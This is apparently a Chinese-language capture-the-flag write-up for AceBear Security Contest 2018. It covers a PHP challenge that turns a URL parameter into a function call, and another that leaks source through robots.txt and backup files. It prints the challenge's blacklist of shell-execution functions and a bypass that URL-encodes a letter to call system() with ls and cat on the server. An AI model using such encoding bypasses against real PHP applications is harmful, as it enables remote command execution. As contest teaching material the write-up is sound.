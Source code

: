 # AceBear Security Contest 2018 - Notes

## Url Parameter
> Description:
> this chall sucks, you should watch VIE vs UZB match. :) VIET NAM VO DICH!
> [link](http://35.196.45.11:8080/)

打開頁面是空的，看 /robots.txt
```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

打開 /?debug 可以看到

```php
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

隨便在網址打 http://35.196.45.11:8080/?test=1 ，會得到
```
Function not found!!
```

在網址打 http://35.196.45.11:8080/?%73ystem=ls ，可以得到
```
flag-a-long-name-that-you-wont-know.php index.php robots.txt
``` 

在網址改打 http://35.196.45.11:8080/?%73ystem=cat%20flag-a-long-name-that-you-wont-know.php

打開看 source code 可以看到答案

## BearShare

打開網站，有兩個頁面
![image](gB4xxuS.png)
和
![image](YFJEhIV.png)

然後看 /robots.txt

```
User-agent: *
Disallow: /backup_files
```

看 /backup_files 有兩個檔案 download.txt 和 index.txt 是網頁的 source code

在 download.txt 有一段 code ，可以讓我們知道如何得到 flag
```php
    if(isset($_POST['messid'])){

	$messid = $_POST['messid'];
	validate_hash();
	$url="";
	if($_POST['storagesv'] === 'message1.local' or $_POST['storagesv'] === 'message2.local'){
		$url = 'http://'.$_POST['storagesv'].'/';
	} elseif ($_POST['storagesv']==="gimmeflag") {
		die('AceBear{******}');
	}
```

